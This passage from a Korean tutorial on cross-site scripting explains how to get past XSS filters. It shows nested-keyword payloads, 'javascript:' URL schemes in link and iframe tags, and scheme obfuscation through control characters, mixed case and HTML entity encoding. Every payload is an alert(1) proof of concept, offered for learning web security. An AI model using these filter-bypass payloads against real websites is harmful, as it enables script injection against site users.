 ### 문자열 치환 우회
```javascript
/* 필터링 함수 */
function XSSFilter(data){
  return data.replace(/script/gi, '');
}
```
```html
<!-- 키워드를 중첩 삽입하여 우회 -->
<sscriptcript>alert(1)</sscriptcript>
```

<br>


# #3. 활성 하이퍼링크

---

HTML 마크업에서 사용될 수 있는 URL은 활성 콘텐츠를 포함할 수 있다. `javascript:` 스키마는 URL 로드 시 자바스크립트 코드를 실행할 수 있도록 한다.

### URL 스키마
다음과 같이 `a` 태그나 `iframe` 태그에서 URL 속성에 스키마를 사용할 수 있다.
```html
<a href="javascript:alert(1)"></a>
<iframe src="javascript:alert(1)">
```

<br>

### 정규화 우회
이를 방지하고자 XSS 키워드를 필터링할 때 `javascript:` 스키마를 필터링하는 경우가 존재하는데, 이는 정규화를 이용하여 우회할 수 있는 경우가 존재한다. 정규화 과정에서 `\x01`, `\x04`, `\t`와 같은 특수 문자들이 제거되고, 스키마의 대소문자가 통일된다.
```html
<a href="\1\4jAVasC\triPT:alert(1)"></a>
<iframe src="\1\4jAVasC\triPT:alert(1)">
```

<br>

### HTML Entity Encoding
HTML 태그 속성 내에서는 HTML Entity Encoding을 사용할 수 있다. 이를 이용하여 `javascript:` 스키마나 XSS 키워드를 인코딩하여 필터링을 우회할 수도 있다.
```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(1)"></a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(1)">
```

<br>

+) URL 정규화 테스트
자바스크립트에서는 `URL` 객체를 통해 URL을 직접 정규화할 수 있으며, `protocol`, `hostname` 등 URL의 각종 정보를 추출할 수 있다.
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
```
